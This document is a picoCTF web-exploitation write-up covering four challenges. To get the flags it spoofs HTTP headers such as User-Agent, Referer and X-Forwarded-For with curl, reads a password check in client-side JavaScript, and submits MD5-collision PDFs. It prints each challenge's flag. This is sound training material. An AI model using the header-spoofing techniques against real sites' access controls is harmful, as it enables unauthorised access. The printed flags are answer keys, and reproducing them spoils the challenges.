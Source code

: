 # PicoCTF

## Web Exploitation

##### Problem
###### Who are you?
> Description
> This website can be rendered only by picobrowser, go and catch the flag! https://jupiter.challenges.picoctf.org/problem/50522/ (link) or http://jupiter.challenges.picoctf.org:50522

By running the following `curl` command we can see the page provides the information we are looking at:

```
curl -v http://jupiter.challenges.picoctf.org:50522/
```
Output:

```
       <div class="jumbotron">
            <p class="lead"></p>
            <p><a href="/flag" class="btn btn-lg btn-success btn-block"> Flag</a></p>
        </div>
```

##### Solution

To collect the flag, you need to run
```
curl -v -A picobrowser http://jupiter.challenges.picoctf.org:50522/flag

```
**FLAG**
```
picoCTF{p1c0_s3cr3t_ag3nt_51414fa7}

```


##### Problem
###### Who are you?
> Description
> Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:34588/

By visiting the page, one gets the following: "Only people who use the official PicoBrowser are allowed on this site!"

##### Solution

Sending the User-Agent as `PicoBrowser`, do not simple solve the issue.

```sh
curl -v -i -A "PicoBrowser" http://mercury.picoctf.net:34588/
```

```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">I don&#39;t trust users visiting from another site.</h3>
                        </div>
                </div>
```

Sending Referer HEADER field

```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" http://mercury.picoctf.net:34588/
```
```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">Sorry, this site only worked in 2018.</h3>
                        </div>
                </div>
```

I had to try different HEADER options regarding age. The output changed when I used `max-age` and `Date`.

```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" -H "max-age: 2018" -H "Date: 2018" http://mercury.picoctf.net:34588/
```
```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">I don&#39;t trust users who can be tracked.</h3>
                        </div>
                </div>
```

They were using an old `Do Not Track (DNT)` which accepts value 1 if client don't want to be tracked.
```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" -H "max-age: 2018" -H "Date: 2018" -H "DNT: 1" http://mercury.picoctf.net:34588/
```
```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">This website is only for people from Sweden.</h3>
                        </div>
                </div>
```

I must admit that I have almost gave up on this one, since I have tried `Accept-Language`, `Content-Language` and many other ones related to language. I also tried `CountryCode`, `Country`, `IP` and other few ones. 

I tried `http IP header` in the Web Search and the result came: The `X-Forwarded-For` (XFF) HTTP header field is a common method for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or load balancer.

Let's try this one by using the IP range from Sweden. I have found an IP here: https://lite.ip2location.com/sweden-ip-address-ranges


```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" -H "max-age: 2018" -H "Date: 2018" -H "DNT: 1" -H "X-Forwarded-For: 2.16.66.1" http://mercury.picoctf.net:34588/
```
```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">You&#39;re in Sweden but you don&#39;t speak Swedish?</h3>
                        </div>
                </div>
```

Now the process is easy!

```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" -H "max-age: 2018" -H "Date: 2018" -H "DNT: 1" -H "X-Forwarded-For: 2.16.66.1" -H "Accept-Language: sv-SE" http://mercury.picoctf.net:34588/
```

**FLAG**
```
picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_79e451a7}

```


##### Problem
###### dont-use-client-side
> Description
> Can you break into this super secure portal? https://jupiter.challenges.picoctf.org/problem/29835/ (link) or http://jupiter.challenges.picoctf.org:29835

##### Solution

To capture the flag one needs to `Enter valid credentials to proceed`. There is a JavaScript that checks for that.

```js
  function verify() {
    checkpass = document.getElementById("pass").value;
    split = 4;
    if (checkpass.substring(0, split) == 'pico') {
      if (checkpass.substring(split*6, split*7) == '723c') {
        if (checkpass.substring(split, split*2) == 'CTF{') {
         if (checkpass.substring(split*4, split*5) == 'ts_p') {
          if (checkpass.substring(split*3, split*4) == 'lien') {
            if (checkpass.substring(split*5, split*6) == 'lz_7') {
              if (checkpass.substring(split*2, split*3) == 'no_c') {
                if (checkpass.substring(split*7, split*8) == 'e}') {
                  alert("Password Verified")
                  }
                }
              }
            }
          }
        }
      }
    }
```

You just have to follow the white rabbit. First part the string is  `substring(0, split) == 'pico')`. Second is `substring(split, split*2) == 'CTF{')`. Third is `substring(split*2, split*3) == 'no_c')`. Forth part is `substring(split*3, split*4) == 'lien')`, so on so forth, and final part denotes `substring(split*7, split*8) == 'e}')`.


**FLAG**

```
picoCTF{no_clients_plz_7723ce}
```

##### Problem
###### It is my Birthday
> Description
> I sent out 2 invitations to all of my friends for my birthday! I'll know if they get stolen because the two invites look similar, and they even have the same md5 hash, but they are slightly different! You wouldn't believe how long it took me to find a collision. Anyway, see if you're invited by submitting 2 PDFs to my website. http://mercury.picoctf.net:48746/

##### Solution

This web application is vulrnable to the idea of MD5 collision. Basically, to solve this challenge one needs to send _two_ files that generates the same hash output.

I dowloaded the following files from: https://www.mathstat.dal.ca/~selinger/md5collision/

```sh
# first file
curl -O https://www.mathstat.dal.ca/~selinger/md5collision/erase
cp erase 1.pdf

# second file
curl -O https://www.mathstat.dal.ca/~selinger/md5collision/hello
cp hello 2.pdf
```

Now, upload `1.pdf` and `2.pdf`. You will receive the flag:

**FLAG**
```php
// FLAG: picoCTF{c0ngr4ts_u_r_1nv1t3d_aebcbf39}
```
